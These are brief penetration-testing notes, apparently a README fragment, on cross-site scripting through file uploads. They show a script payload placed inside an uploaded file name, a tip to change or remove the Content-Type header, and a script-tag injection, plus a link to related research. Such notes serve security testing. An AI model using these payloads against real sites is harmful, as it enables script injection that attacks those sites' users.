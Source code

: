 _____

# XSS in File Name

```
filename="test<img src=x onerror=alert()>.png"
```

# Bypassing Content Types

Try deleting Content-Type
```
Content-Type: text/html
```

Add `<script>alert()</script>`

# Content/MIME Types

https://github.com/BlackFan/content-type-research/blob/master/XSS.md

